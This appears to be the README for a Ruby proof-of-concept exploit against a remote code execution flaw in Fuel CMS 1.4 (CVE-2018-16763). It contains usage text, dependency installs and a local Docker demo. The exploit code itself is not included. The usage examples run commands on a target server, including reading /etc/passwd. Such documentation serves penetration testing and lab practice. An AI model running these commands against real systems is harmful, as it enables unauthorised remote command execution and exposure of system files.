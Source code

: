 # Fuel CMS RCE exploit / PoC

> Fuel CMS 1.4 - Remote Code Execution

Exploit / PoC for [CVE-2018-16763](https://nvd.nist.gov/vuln/detail/CVE-2018-16763).

[[EDB-49487]](https://www.exploit-db.com/exploits/49487) [[PacketStorm](https://packetstormsecurity.com/files/160080/Fuel-CMS-1.4-Remote-Code-Execution.html)] [[WLB-2020110119](https://cxsecurity.com/issue/WLB-2020110119)]

## Usage

```
$ ruby exploit.rb -h
Fuel CMS 1.4 - Remote Code Execution

Usage:
  exploit.rb <url> <cmd>
  exploit.rb -h | --help

Options:
  <url>         Root URL (base path) including HTTP scheme, port and root folder
  <cmd>         The system command to execute
  -h, --help    Show this screen

Examples:
  exploit.rb http://example.org id
  exploit.rb https://example.org:8443/fuelcms 'cat /etc/passwd'
```

## Requirements

- [httpclient](https://github.com/nahi/httpclient)
- [docopt.rb](https://github.com/docopt/docopt.rb)

Example for BlackArch:

```
pacman -S ruby-httpclient ruby-docopt
```

Example using gem:

```
gem install httpclient docopt
```

## Demo environment

```
$ docker pull her0ma/fuelcms
$ docker run -d -p 8099:80 -p 3306:3306 her0ma/fuelcms /bin/startup.sh
$ ruby exploit.rb http://127.0.0.1:8099/index.php/ 'ls -lhA'
```

## Reference

This is a better re-write of [EDB-ID-47138][EDB-ID-47138] ([Github](https://github.com/dinhbaouit/CVE-2018-16763)):

- better output (displays only command's output)
- using arguments (instead of hardcoded values)
- cleaner & more customizable
- using ruby (python2 is deprecated)

This exploit was tested with Ruby 2.7.2, 3.0.2.

About [EDB-ID-47138][EDB-ID-47138]:

```
# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763
```

[EDB-ID-47138]:https://www.exploit-db.com/exploits/47138
